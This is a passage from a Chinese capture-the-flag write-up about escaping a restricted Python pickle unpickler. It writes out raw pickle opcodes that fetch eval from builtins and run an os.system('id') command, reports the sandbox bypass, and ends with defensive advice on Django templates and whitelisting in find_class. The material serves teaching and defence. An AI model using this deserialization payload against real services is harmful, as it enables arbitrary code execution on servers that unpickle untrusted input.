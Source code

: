 接下来，我们只需要再从这个没有限制的`builtins`对象中拿到eval等真正危险的函数即可：

```
...
cbuiltins
getattr
(g1
S'eval'
tR
```

g1就是刚才获取到的`builtins`，我继续使用getattr，获取到了`builtins.eval`。

再执行这个eval：

```
cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
(tRS'builtins'
tRp1
cbuiltins
getattr
(g1
S'eval'
tR(S'__import__("os").system("id")'
tR.
```

[![image.png](https://www.leavesongs.com/media/attachment/2019/05/27/34deac25-bafe-4e45-8fbe-8267d2a0c717.1b12a410fea0.png)](https://www.leavesongs.com/media/attachment/2019/05/27/34deac25-bafe-4e45-8fbe-8267d2a0c717.png)

成功绕过沙盒。

当然，编写pickle代码远不止这么简单，仍有几十个OPCODE我们没有用过，只不过我们现在需要的只是这部分罢了。

## [后记](https://www.leavesongs.com/PENETRATION/code-breaking-2018-python-sandbox.html#_2)

出这道题的原因，主要就是考一考大家对Python真正的认识。有些时候打CTF真的是为了学知识，出题也是如此，出题人需要用知识来难倒做题者，而不是用一些繁琐的操作或者没太大意义的脑洞来考做题者。

那么，作为一个开发，如何防御本文描述的这些安全隐患呢？

第一，尽量不要让用户接触到Django的模板，模板的内容通过渲染而不是拼接引入；第二，使用官方推荐的`find_class`方法的确可以避免反序列化攻击，但在编写这个函数的时候，最好使用白名单来限制反序列化引入的对象，才能做到不被绕过。

这道题目参考了如下paper：

- [Arbitrary code execution with Python pickles](https://checkoway.net/musings/pickle/)
- http://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf
- [Python Pickle的任意代码执行漏洞实践和Payload构造](https://zhuanlan.zhihu.com/p/25981037)
- [Python反序列化漏洞的花式利用](http://www.bendawang.site/2018/04/18/Python反序列化漏洞的花式利用/)

# 赞赏